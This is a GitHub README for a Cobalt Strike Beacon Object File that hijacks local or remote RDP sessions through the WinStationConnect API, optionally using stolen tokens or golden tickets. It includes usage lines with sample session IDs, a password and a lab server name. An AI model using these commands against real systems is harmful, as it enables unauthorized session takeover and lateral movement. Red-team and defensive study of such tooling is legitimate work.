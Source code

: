 # BOF - RDPHijack
----
Cobalt Strike Beacon Object File (BOF) that uses WinStationConnect API to perform local/remote RDP session hijacking. With a valid access token / kerberos ticket (e.g., golden ticket) of the session owner, you will be able to hijack the session remotely without dropping any beacon/tool on the target server.

To enumerate sessions locally/remotely, you could use [Quser-BOF](https://github.com/netero1010/Quser-BOF).

### Screenshot
![HowTo](https://github.com/netero1010/RDPHijack-BOF/raw/main/demo.png)

### Usage
```
Usage: bof-rdphijack [your console session id] [target session id to hijack] [password|server] [argument]

Command         Description
--------        -----------
password        Specifies the password of the user who owns the session to which you want to connect.
server          Specifies the remote server that you want to perform RDP hijacking.

Sample usage
--------
Redirect session 2 to session 1 (require SYSTEM privilege):
bof-rdphijack 1 2

Redirect session 2 to session 1 with password of the user who owns the session 2 (require high integrity beacon):
bof-rdphijack 1 2 password P@ssw0rd123

Redirect session 2 to session 1 for a remote server (require token/ticket of the user who owns the session 2):
bof-rdphijack 1 2 server SQL01.lab.internal
```

### Compile
`make`

### Reference
tscon.exe
